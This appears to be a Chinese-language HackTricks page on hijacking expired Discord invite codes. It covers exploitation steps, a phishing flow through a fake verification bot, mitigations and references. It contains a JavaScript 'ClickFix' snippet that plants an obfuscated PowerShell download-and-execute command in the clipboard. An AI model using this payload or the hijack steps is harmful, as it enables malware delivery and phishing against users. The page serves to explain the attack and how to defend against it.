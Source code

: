 # Discord 邀请劫持

{{#include ../../banners/hacktricks-training.md}}

Discord 的邀请系统漏洞允许威胁行为者声称过期或删除的邀请代码（临时、永久或自定义虚荣）作为任何 Level 3 提升服务器上的新虚荣链接。通过将所有代码标准化为小写，攻击者可以预先注册已知的邀请代码，并在原始链接过期或源服务器失去提升后静默劫持流量。

## 邀请类型和劫持风险

| 邀请类型               | 可劫持？ | 条件 / 评论                                                                                           |
|-----------------------|----------|------------------------------------------------------------------------------------------------------|
| 临时邀请链接          | ✅       | 过期后，代码变得可用，可以被提升的服务器重新注册为虚荣 URL。                                         |
| 永久邀请链接          | ⚠️       | 如果被删除且仅由小写字母和数字组成，代码可能会再次可用。                                            |
| 自定义虚荣链接        | ✅       | 如果原始服务器失去 Level 3 Boost，其虚荣邀请将可供新注册。                                         |

## 利用步骤

1. 侦察
- 监控公共来源（论坛、社交媒体、Telegram 频道）以寻找匹配模式 `discord.gg/{code}` 或 `discord.com/invite/{code}` 的邀请链接。
- 收集感兴趣的邀请代码（临时或虚荣）。
2. 预注册
- 创建或使用一个具有 Level 3 Boost 权限的现有 Discord 服务器。
- 在 **服务器设置 → 虚荣 URL** 中，尝试分配目标邀请代码。如果被接受，该代码将被恶意服务器保留。
3. 劫持激活
- 对于临时邀请，等待原始邀请过期（或如果您控制源，则手动删除它）。
- 对于包含大写字母的代码，可以立即声明小写变体，尽管重定向仅在过期后激活。
4. 静默重定向
- 一旦劫持激活，访问旧链接的用户将无缝地被发送到攻击者控制的服务器。

## 通过 Discord 服务器的钓鱼流程

1. 限制服务器频道，使只有 **#verify** 频道可见。
2. 部署一个机器人（例如，**Safeguard#0786**）提示新来者通过 OAuth2 进行验证。
3. 机器人将用户重定向到一个钓鱼网站（例如，`captchaguard.me`），伪装成 CAPTCHA 或验证步骤。
4. 实施 **ClickFix** 用户体验技巧：
- 显示一个损坏的 CAPTCHA 消息。
- 指导用户打开 **Win+R** 对话框，粘贴预加载的 PowerShell 命令，然后按 Enter。

### ClickFix 剪贴板注入示例
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
这种方法避免了直接下载文件，并利用熟悉的用户界面元素来降低用户的怀疑。

## 缓解措施

- 使用包含至少一个大写字母或非字母数字字符的永久邀请链接（永不过期，不可重复使用）。
- 定期更换邀请代码并撤销旧链接。
- 监控 Discord 服务器的提升状态和虚荣 URL 声明。
- 教育用户验证服务器的真实性，并避免执行剪贴板粘贴的命令。

## 参考文献

- 从信任到威胁：被劫持的 Discord 邀请用于多阶段恶意软件交付 – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord 自定义邀请链接文档 – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
